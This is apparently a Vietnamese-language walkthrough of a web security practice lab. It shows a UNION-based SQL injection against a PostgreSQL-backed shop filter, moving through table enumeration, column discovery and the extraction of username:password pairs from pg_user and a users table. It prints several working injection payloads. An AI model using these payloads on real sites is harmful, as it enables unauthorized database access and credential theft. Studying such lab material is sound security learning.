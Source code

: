 Như vậy cả hai cột đều có thể tận dụng để hiển thị thông tin khai thác.

Kiểm tra version thì đây là PostgreSQL.

![image](https://hackmd.io/_uploads/ry9x_2n5a.png)

- Mình biết được đây không phải Oracle, nên luôn tồn tại 1 bảng information_schema chứa tên các bảng, loại các bảng, nên mình tiến hành tìm tên tables trong information_schema.tables Truy xuất tên các bảng, payload: `/filter?category=' UNION SELECT table_name, NULL FROM information_schema.tables--`

![image](https://hackmd.io/_uploads/ByGjS3396.png)

Như chúng ta có thể thấy, có rất nhiều bảng tên user, có một số bảng khá đáng ngờ trong trang web này như:

- user_defined_types
- pg_statio_user_sequences
- pg_user_mappings
- pg_stat_xact_user_functions
- user_mappings
- pg_stat_user_tables
- user_mapping_options
- pg_stat_xact_user_tables
- pg_statio_user_tables
- users_tkewxf
- pg_stat_user_indexes
- pg_statio_user_indexes
- pg_user
- pg_stat_user_functions

Quan sát nhận thấy table **pg_user** có thể chứa thông tin tài khoản người dùng:

![image](https://hackmd.io/_uploads/r1gFL2ncT.png)

Truy xuất tên các cột trong bảng pg_user, payload: `/filter?category=' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'pg_user'--`

![image](https://hackmd.io/_uploads/BkAe5hh56.png)

Trong bảng pg_user có chứa cột usename và passwd là cột chúng ta đang tìm kiếm. Truy xuất thông tin hai cột này, payload: `/filter?category=' UNION SELECT usename || ':' || passwd, NULL FROM pg_user--` mình sẽ hiển thị dưới dạng nối chuỗi `username:password`

![image](https://hackmd.io/_uploads/Skbo932cT.png)

thật không may chúng ta vẫn chưa tìm được tài khoản của admin

chú ý vào một table khác có tên **users_tkewxf**

- Thực hiện lại các bước trên, truy xuất thông tin tên cột, payload: `/filter?category=' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_tkewxf'--`

![image](https://hackmd.io/_uploads/By423hn5p.png)

Truy xuất thông tin tài khoản administrator, payload: `/filter?category=' UNION SELECT username_fjawon || ':' || password_frnaej, NULL FROM users_tkewxf--`
